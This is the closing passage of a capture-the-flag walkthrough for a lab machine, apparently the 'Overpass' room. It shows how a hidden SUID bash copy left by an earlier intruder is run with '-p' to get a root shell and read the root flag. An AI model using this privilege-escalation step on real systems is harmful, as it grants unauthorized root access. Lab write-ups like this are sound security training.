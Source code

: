 The **.suid_bash** file is a hidden file owned by root with the SUID bit set, it means that any user can execute that file with the same privileges of the owner of the file (root).  
The file is likely a copy of the bash executable, left behind by the attacker as a quick mean to regain root access.  
Let's try this theory running it.

```bash
james@overpass-production:/home/james$ ./.suid_bash -p

.suid_bash-4.4# whoami
root
```

You now have root access.  
Notice the **-p** parameter, this is necessary because without it the program by default would drop the privileges and you would find yourself still in the **james** user.  
Now you can retrieve the root flag.

```bash
.suid_bash-4.4# cd /root
.suid_bash-4.4# ls
root.txt
.suid_bash-4.4# cat root.txt
[REDACTED]
```

That's it for this room, see you in the next one.  
Until next time, happy hacking!
